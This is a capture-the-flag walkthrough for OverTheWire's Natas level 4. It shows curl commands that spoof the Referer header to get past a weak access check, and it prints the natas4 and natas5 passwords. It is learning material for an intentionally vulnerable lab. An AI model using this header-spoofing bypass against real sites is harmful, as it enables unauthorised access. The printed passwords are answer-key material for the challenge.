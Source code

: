 ***Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"***

When I hit the "refresh page" link below this, the message changes to:

***Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/index.php" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"***

The refresh link on the page takes me to index.php on this subdomain, and is subsequently a clue: the web app is keeping track of what URL is being used to access the page. If we can spoof the URL that is being used to access the page, then we can trick it to think we're on the natas5 subdomain. 

This can be accomplished by modifying the Referer request header. Using the browser inspector, we can see in the request headers that the Referer is currently set to `http://natas4.natas.labs.overthewire.org/`, when we need this changed to the natas5 subdomain address. To make the swap, we can either use a tool/extension, or we can use a curl call on a CLI. To test the normal response from a curl call:

**`raj@arch:~$ curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm natas4.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

This gives us the HTML source of the page. Now let's modify our curl call to spoof the Referer request header:

**`raj@arch:~$ curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm --referer "http://natas5.natas.labs.overthewire.org/" natas4.natas.labs.overthewire.org`**  
```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
